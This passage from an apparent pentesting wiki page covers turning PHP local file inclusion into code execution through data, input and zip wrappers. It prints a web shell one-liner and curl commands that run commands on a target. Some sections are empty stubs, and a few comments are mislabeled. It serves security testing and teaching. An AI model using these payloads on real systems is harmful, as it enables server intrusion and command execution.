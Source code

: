 ### 🛠️ LFI to RCE (via file upload)

### LFI to RCE (via php wrappers)

#### Data wrapper

```bash
# Shell in base64 encoding
echo '<?php system($_GET['cmd']); ?>' | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id
```

{% hint style="warning" %}
The attribute `allow_url_include` should be set. \
This configuration can be checked in the `php.ini` file.
{% endhint %}

#### Input wrapper

```bash
# Testers should make sure to change the $URL
curl -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```

{% hint style="warning" %}
The attribute `allow_url_include` should be set. \
This configuration can be checked in the `php.ini` file.
{% endhint %}

#### Zip wrapper

{% hint style="info" %}
The prerequisite for this method is to be able to [upload a file](https://app.gitbook.com/@shutdown/s/the-hacker-recipes/\~/drafts/-Mk6VflWDxyIbsU_ZjzA/web-services/attacks-on-inputs/unrestricted-file-upload).
{% endhint %}

```bash
echo '<?php system($_GET['cmd']); ?>' > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" $URL/?parameter=zip://payload.zip%23payload.php&cmd=id
```

#### 🛠️ Phar wrapper

### 🛠️ LFI to RCE (via /proc)

#### /proc/self/environ

Testers can abuse a process created due to a request. The payload is injected in the `User-Agent` header.
